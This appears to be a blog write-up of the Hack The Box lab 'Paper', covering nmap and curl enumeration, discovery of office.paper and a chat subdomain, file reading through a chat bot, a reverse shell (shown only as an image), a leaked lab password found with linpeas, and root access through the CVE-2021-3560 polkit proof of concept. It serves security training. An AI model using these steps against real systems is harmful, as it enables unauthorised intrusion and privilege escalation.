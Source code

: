 ```yaml
---
layout: post
title: 'HTB | Paper'
permalink: /ctf/htb/lab/paper/
---
```


<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/ctf/htb/lab/img/21-23-31-33.png" style="text-align: center" weight="100%" />

# Enumeration
## nmap
{% highlight bash %}
❯ nmap -sVC 10.10.11.143 -oN nmap
	Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-21 18:04 CEST
	Nmap scan report for 10.10.11.143
	Host is up (0.28s latency).
	Not shown: 997 closed tcp ports (conn-refused)
	PORT    STATE SERVICE  VERSION
	22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
	| ssh-hostkey: 
	|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)
	|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)
	|_  256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)
	80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
	|_http-title: HTTP Server Test Page powered by CentOS
	|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
	| http-methods: 
	|_  Potentially risky methods: TRACE
	|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
	443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
	|_http-title: HTTP Server Test Page powered by CentOS
	| http-methods: 
	|_  Potentially risky methods: TRACE
	|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
	| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US
	| Subject Alternative Name: DNS:localhost.localdomain
	| Not valid before: 2021-07-03T08:52:34
	|_Not valid after:  2022-07-08T10:32:34
	|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
	|_ssl-date: TLS randomness does not represent time
	| tls-alpn: 
	|_  http/1.1
{% endhighlight %}

## Web
We can see a default webpage for nginx.
With curl we can get the header and see that there is a page called office.paper.
{% highlight bash %}
❯ curl -i http://10.10.11.143/
	HTTP/1.1 403 Forbidden
	Date: Sat, 21 May 2022 16:07:56 GMT
	Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
	X-Backend-Server: office.paper
	Last-Modified: Sun, 27 Jun 2021 23:47:13 GMT
	ETag: "30c0b-5c5c7fdeec240"
	Accept-Ranges: bytes
	Content-Length: 199691
	Content-Type: text/html; charset=UTF-8
{% endhighlight %}

We need to add this to /etc/hosts:
{% highlight plain %}
10.10.11.143    office.paper
{% endhighlight %}
Now we can see the page.
With Wappalyzer we can see it is a Wordpress, so we can try a **wpscan**, we get that there is a vulnerable Wordpress version.

If we go to http://office.paper/?static=1 we can see a subdomain, **chat**.
We add it to the /etc/hosts. We get a login, but with the url http://chat.office.paper/register/8qozr226AhkCHZdyY we can register.


---

# Explotation
Inside the chat we can see a bot in the chat, if we talk to him in dm we can perform an LFI to see some files (as /etc/passwd).
We can see there are a folder ../hubot, where there are some scripts. The run.js script allow us to run any script.
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/ctf/htb/lab/img/21-19-19-51.png" weight="100%" />

We can start a reverse shell with:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/ctf/htb/lab/img/21-22-39-24.png" weight="100%" />


---

# Privilage Escalation
We see that in our home we have the linpeas.sh file, so we can executed it:
{% highlight bash %}
chmod +x linpeas.sh
./linpeas.sh
{% endhighlight %}

We found some credentials:
{% highlight plain %}
ROCKETCHAT_PASSWORD=Queenofblad3s!23
LOGNAME=dwight
{% endhighlight %}
Now we can connect with ssh.

We will use the [CVE-2021-3560](https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation)
{% highlight basj %}
[dwight@paper ~]# ./poc.sh -u=zeropio -p=1234
[dwight@paper ~]# su - zeropio
	Password: 
[zeropio@paper ~]# sudo bash
	[sudo] password for zeropio:
[root@paper ~]#
{% endhighlight %}